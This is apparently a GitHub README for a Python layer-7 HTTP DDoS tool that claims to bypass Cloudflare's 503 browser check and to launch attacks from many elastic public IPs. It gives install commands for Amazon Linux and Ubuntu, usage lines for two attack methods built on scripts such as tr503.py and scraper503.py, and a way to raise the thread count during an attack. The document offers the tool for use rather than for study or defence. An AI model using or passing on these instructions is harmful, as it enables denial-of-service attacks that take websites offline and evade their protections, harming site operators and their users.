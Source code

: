 # Ddos-http-layer-7-using-python
Bypass 503 clodflare  and launch attack from different elastic public ip's
there is two method

before follow this instructions https://github.com/Anorov/cloudflare-scrape <br/>
# AMI Linux user

 
 sudo yum update <br/>
 sudo yum install python<br/>
 sudo easy_install pip<br/>
 sudo pip install cfscrape <br/>
 sudo pip install requests_toolbelt<br/>
 curl -o- https://raw.githubusercontent.com/creationix/nvm/v0.32.0/install.sh | bash <br/>
 . ~/.nvm/nvm.sh <br/>
 nvm install 4.4.5 <br/>
 node -v <br/>
 vi thread.txt (save as empty) <br/>


# ubuntu user
sudo apt-get update<br/>
sudo apt-get install python<br/>
sudo apt-get install python-pip<br/>
pip install cfscrape<br/>
apt-get install nodejs<br/>
pip install requests_toolbelt<br/>
vi thread.txt (empty) <br/>

# method 1
  usage :<br/>
  python tr503_alternative.py <first-private-ip-of-n/w-interface> <how-much-ip> <no-of-threads> <br/>
  example : python tr503_alternative.py 172.31.42.22 30 100
  
# method 2
  usage :<br/>
  mkdir session <br/>
  
  
  if the site is not under dos attack mode (503 checking your browser before accessing site)<br/>
  python tr200.py "first-private-ip-of-n/w-interface" "how-much-ip" <br/>
  
  After 503<br/>
  python scraper503.py "first-private-ip-of-n/w-interface" "how-much-ip"  "char" <br/>
  python tr503.py "first-private-ip-of-n/w-interface" 'how-much-ip"  <br/>
  
  To increase thread level at Runtime <br/>
  change the values in thread.txt to increase threads 
  
  
  
  
